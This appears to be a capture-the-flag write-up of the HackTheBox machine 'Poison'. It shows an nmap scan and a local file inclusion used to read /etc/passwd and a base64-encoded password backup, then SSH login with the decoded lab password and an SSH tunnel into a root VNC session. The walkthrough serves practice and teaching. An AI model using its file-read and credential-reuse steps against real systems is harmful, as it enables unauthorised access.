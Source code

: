 ```yaml
---
layout: post
title:  "HackTheBox - Poison"
author: erik
categories: [ HTB ]
image: https://user-images.githubusercontent.com/47476901/155025245-af677067-1430-4cfa-957e-8220a8dd4790.png
beforetoc: ""
toc: false
tags: [ HTB, VNC, Linux ]
---
```

Linux machine medium level

# Table of Contents
1. [Enumeration](#enumeration)
2. [Exploitation](#exploitation)
3. [Escalation of Privileges](#escalation)

---

## Enumeration: <a name="enumeration"></a>

**Nmap:**
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
```

**Ports:**
- 22 SSH 
- 80 HTTP

The web shows several php file names and a function that inspects them.

![Web](https://user-images.githubusercontent.com/47476901/124363915-20b4da00-dc36-11eb-8437-46720f7f3b8d.png)

One of the 4 files that the web shows for testing catches our attention because it is called "listfiles.php".
We run it in the web function to see what it contains.


![listfiles](https://user-images.githubusercontent.com/47476901/124363919-24486100-dc36-11eb-8add-515567ee3da4.png)

We see that the path of the listfiles.php script ends in a file called "pwdbackup.txt".

- It contains base64 encoded text and mentions to us that it is 13 times encoded.

![pwdbackup](https://user-images.githubusercontent.com/47476901/124363925-2a3e4200-dc36-11eb-8651-32c183fcf500.png)

We decode the base64 13 times, I will do it this way:
```bash
 echo "Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU
bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS
bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW
M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs
WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy
eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G
WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw
MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa
T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k
WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk
WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0
NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT
Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz
WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW
VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO
Ukd4RVdub3dPVU5uUFQwSwo="|base64 -d |base64 -d|base64 -d |base64 -d|base64 -d |base64 -d|base64 -d |base64 -d|base64 -d |base64 -d|base64 -d |base64 -d|base64 -d
```

The result of the encoded text appears to be a password.

```
Contraseña: Charix!2#4%6&8(0
```

## Exploitation: <a name="exploitation"></a>

We remember that the web function could read files...
Let's try displaying /etc/passwd to see if we can find a user to use the password found.

![LFI](https://user-images.githubusercontent.com/47476901/124363927-2f02f600-dc36-11eb-8699-73640adac21e.png)

We found a user named Charix.

![passwd](https://user-images.githubusercontent.com/47476901/124363939-362a0400-dc36-11eb-865b-4c3e0bdf673e.png)

We know that the server runs SSH, we try to connect with the collected data.
```
User: charix
Password: Charix!2#4%6&8(0
```

![LoginSSH](https://user-images.githubusercontent.com/47476901/124363942-3924f480-dc36-11eb-87f2-1fe8ff82fbec.png)

## Privilege escalation: <a name="escalacion"></a>

- We found a zip file called secret.zip

![secretzip](https://user-images.githubusercontent.com/47476901/124363944-3c1fe500-dc36-11eb-9304-d427d8b9ec34.png)

We bring it to our machine and unzip it.

![netcat](https://user-images.githubusercontent.com/47476901/124363946-3fb36c00-dc36-11eb-85a4-320df942e353.png)

It is password protected, we will use the user's password:

```bash
unzip secret.zip
Archive:  secret.zip
	[secret.zip] secret password: Charix!2#4%6&8(0
```

![unzip](https://user-images.githubusercontent.com/47476901/124363947-42ae5c80-dc36-11eb-93f4-a6b0a57103ab.png)

Con el comando:
```bash
ps aux
```
We can check if the root user is running a service...
- Is running a VNC server on port 5901
- 
![ps aux](https://user-images.githubusercontent.com/47476901/124363949-46da7a00-dc36-11eb-89c9-a14fc484bd73.png)

Now we know how to perform the privilege escalation.
We will perform a log forwarding redirecting the port to the ssh to be able to have direct connection to the VNC service.

Redirect the connection to SSH to access the VNC later on. 

```bash
ssh -L 5901:127.0.0.1:5901 charix@10.10.10.84
```

![LogPoisoningSSH](https://user-images.githubusercontent.com/47476901/124363955-4b9f2e00-dc36-11eb-8e08-a3d572165a38.png)

It can be seen in the netstat that we have connection to port 5901 (VNC).

![netstat](https://user-images.githubusercontent.com/47476901/124364613-83a87000-dc3a-11eb-8d11-13f5b9ada104.png)

We will use the zip file found above to login to the VNC.
We are in.
```bash 
vncviewer 127.0.0.1:5901 -passwd secret 
```

![VNC](https://user-images.githubusercontent.com/47476901/124363966-5c4fa400-dc36-11eb-9487-9f117882af43.png)

We are already root
- Root Flag
- 
![root txt](https://user-images.githubusercontent.com/47476901/124363970-607bc180-dc36-11eb-9876-f709a43b82a7.png)

**Completed Machine**
